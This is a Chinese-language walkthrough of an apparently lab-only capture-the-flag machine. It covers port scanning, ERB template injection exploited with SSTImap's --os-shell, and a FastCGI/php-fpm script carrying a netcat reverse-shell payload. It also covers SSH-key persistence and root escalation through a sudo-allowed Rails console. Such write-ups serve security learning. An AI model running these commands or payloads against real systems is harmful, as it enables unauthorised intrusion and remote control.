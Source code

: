 ![Pasted image 20240913144412](https://github.com/user-attachments/assets/92d66147-3fad-43d1-a4f8-41218a78bd63)


# 端口扫描

`PORT     STATE SERVICE  VERSION`  
`22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)`  
`| ssh-hostkey:`    
`|   256 e7:ce:f2:f6:5d:a7:47:5a:16:2f:90:07:07:33:4e:a9 (ECDSA)`  
`|_  256 09:db:b7:e8:ee:d4:52:b8:49:c3:cc:29:a5:6e:07:35 (ED25519)`  
`3000/tcp open  ssl/ppp?`  
`| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=FR`  
`| Not valid before: 2024-05-20T15:36:20`  
`|Not valid after:  2038-01-27T15:36:20`  
`|_ssl-date: TLS randomness does not represent time`  
`| fingerprint-strings:`    
`|   GenericLines:`    
`|     HTTP/1.0 400 Bad Request`  
`|     Content-Length: 930`  
`|     Puma caught this error: Invalid HTTP format, parsing fails. Are you trying to open an SSL connection to a non-SSL Puma? (Puma::HttpParserError)`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/client.rb:268:in execute'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/client.rb:268:in try_to_finish'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/server.rb:298:in reactor_wakeup'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/server.rb:248:in block in run'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:119:in wakeup!'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in block in select_loop'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in select'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in select_loop'`  
`|     /usr/loc`

通过搜索发现3000端口为Rails的Puma服务器默认端口

# 功能测试

访问'https://xx.xx.xx.xx:3000',会进入如下网页，网页提供了hacker的硬件推荐，例如Filpper Zero啥的
![Pasted image 20240913144903](https://github.com/user-attachments/assets/1a1caa98-6625-4b90-90a2-1a7d2f6e4bf0)

我们随意点击一个超链接，如图所示
![Pasted image 20240913145108](https://github.com/user-attachments/assets/8a59f08c-9416-49ee-92c6-36c8d9313755)

接下来我们搜索一下，看看有没有什么设备是没有的
![Pasted image 20240913145228](https://github.com/user-attachments/assets/2893f69b-6a9d-481f-b57c-0b60dcefce2c)

注意后面的message,为Product+does+not+exist，很明显了，这里有ssti的问题，可以搞ssti注入，但是因为这个服务器是由Ruby搭建的（具体来说是Ruby on Rails），你直接搜ssti还不行，这里应该说是ERB Template injection（ERB示例注入）。
参考链接：[ERB-SSTI](https://www.trustedsec.com/blog/rubyerb-template-injection)
我们以<%=7 * 7%>为载荷测试一下，用burpsuite更改一下message后面的内容
![Pasted image 20240913145806](https://github.com/user-attachments/assets/5f340c27-c28f-467d-b970-d818dc790f4b)

发现确实可以运行，那么这里推荐一个工具，[SSTIMap](https://github.com/vladko312/SSTImap)，--help展示如下

`nwkyo@Fruit ~/C/h/hackingtoys> python ../../../Tools/SSTImap/sstimap.py -h`     
`usage: sstimap.py [-h] [-V] [--config CONFIG] [--no-color] [-u URL] [-i] [--load-urls LOAD_URLS] [--load-forms LOAD_FORMS] [-M MARKER] [-d DATA]`  
                 `[--data-type DATA_TYPE] [--data-params KEY=VALUE] [-H HEADER] [-C COOKIE] [-m METHOD] [-a USER_AGENT] [-A] [--delay DELAY]`  
                 `[-p PROXY] [--verify-ssl] [--log-response] [-c CRAWL_DEPTH] [-f] [--empty-forms] [--crawl-exclude CRAWL_EXCLUDE]`  
                 `[--crawl-domains CRAWL_DOMAINS] [--save-urls SAVE_URLS] [--save-forms SAVE_FORMS] [-l LEVEL] [-L LEVEL CLEVEL] [-e ENGINE]`  
                 `[-r TECHNIQUE] [--blind-delay TIME_BASED_BLIND_DELAY] [--verify-blind-delay TIME_BASED_VERIFY_BLIND_DELAY] [--legacy]`  
                 `[--skip-generic] [--run] [-t] [-T TPL_CODE] [-x] [-X EVAL_CODE] [-s] [-S OS_CMD] [-B PORT] [-R HOST PORT]`  
                 `[--remote-shell REMOTE_SHELL] [-F] [-U LOCAL REMOTE] [-D REMOTE LOCAL]`
                 
和sqlmap用法差不多，同样的-u提供url，所以我们要测试messages是否如我们所料的那样

`python ../../../Tools/SSTImap/sstimap.py -u 'https://192.168.56.101:3000/search?query=1&message=*'`

`[+] Erb plugin has confirmed injection with tag '*'`
`[+] SSTImap identified the following injection point:`

  `Query parameter: message`
  `Engine: Erb`
  `Injection: *`
  `Context: text`
  `OS: x86_64-linux`
  `Technique: render`
  `Capabilities:`

    `Shell command execution: ok`
    `Bind and reverse shell: ok`
    `File write: ok`
    `File read: ok`
    `Code evaluation: ok, ruby code`
`……`

确实如我们所想的那样哈，sstimap和sqlmap一样有`--os-shell`功能，直接在后面添加即可

`python ../../../Tools/SSTImap/sstimap.py -u 'https://192.168.56.101:3000/search?query=1&message=*' --os-shell`
![Pasted image 20240913150617](https://github.com/user-attachments/assets/343935e0-b9d7-41a8-af46-2788b5c4cfb5)


Now we‘re in

# 用户过程

## lidia

我们通过上述方法进入到的用户是lidia用户，具体怎么确认用户这里不做叙述
可以下载linpeas.sh去跑一下是否有感兴趣的东西，这里我翻了很久之后看了一下端口以及进程

![Pasted image 20240913151003](https://github.com/user-attachments/assets/89dd8d8b-622a-458f-927b-aef3197b48d0)

发现本地起了9000端口，且用户dodi在运行php-fpm，后面我百度了一下发现了某个大佬的随笔说php-fpm可以直接rce,参考链接在这里：[https://exploit-notes.hdks.org/exploit/network/fastcgi-pentesting/](https://exploit-notes.hdks.org/exploit/network/fastcgi-pentesting/)

脚本内容如下：

`#!/bin/bash`

`PAYLOAD="<?php echo '<!--'; system('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f'); echo '-->';"`
`FILENAMES="/dev/shm/index.php" # Exisiting file path`

`HOST=$1`
`B64=$(echo "$PAYLOAD"|base64)`

`for FN in $FILENAMES; do`
    `OUTPUT=$(mktemp)`
    `env -i \`
      `PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \`
      `SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \`
      `cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT`

    `cat $OUTPUT`
`done`

不过在写入这个脚本前记得做持久化登录，Linux这里是做`.ssh/authorized_keys`,Windows的话我记得是写入WinLogon/Userlist注册表条目去

做完后写入保存，并运行，然后就进入dodi的世界里
![Pasted image 20240913151823](https://github.com/user-attachments/assets/0e2e3b79-c737-47b7-9480-13a4ea573f81)
![Pasted image 20240913151856](https://github.com/user-attachments/assets/169ba059-2dc8-4c16-b416-71cb30b5b9c9)

## dodi

进入之后常规检查sudo -l,发现如下内容
![Pasted image 20240913151954](https://github.com/user-attachments/assets/9fae6bb3-ec99-4d7c-87db-270d7dcc2009)


让我们看看这个脚本是怎么个事
![Pasted image 20240913152040](https://github.com/user-attachments/assets/3b250862-9ffe-43ab-b378-4c8156cad03f)

这里是说要先创建一个新的Rails应用才能进行下一步的操作，例如进console和测试应用，那么我们可以先创建一个Rails应用然后再进入console

`sudo /usr/local/bin/rvm_rails.sh new rrc`

因为我这里已经创建好了，所以不放过程，我们进入已经创建好的应用文件夹内，例如这里是rrc,进入后执行

`sudo /usr/local/bin/rvm_rails.sh console`

现在已经进入console里了，在这里已经获取root权限了，但是我们面对的是这么一个界面
![Pasted image 20240913152558](https://github.com/user-attachments/assets/d6443b11-b39d-47ba-9ce6-f0abcac3bc97)

有两种方式可以执行root命令：
1.
![Pasted image 20240913153015](https://github.com/user-attachments/assets/33d7b877-be0b-49b0-b2fa-2e645515093b)

2.创建一个xxxxx.rb，然后文件里就写如图所示的代码，然后通过irb_load去加载这个rb文件
![Pasted image 20240913153543](https://github.com/user-attachments/assets/dcb5088d-9348-48dc-9a22-066e64376f01)




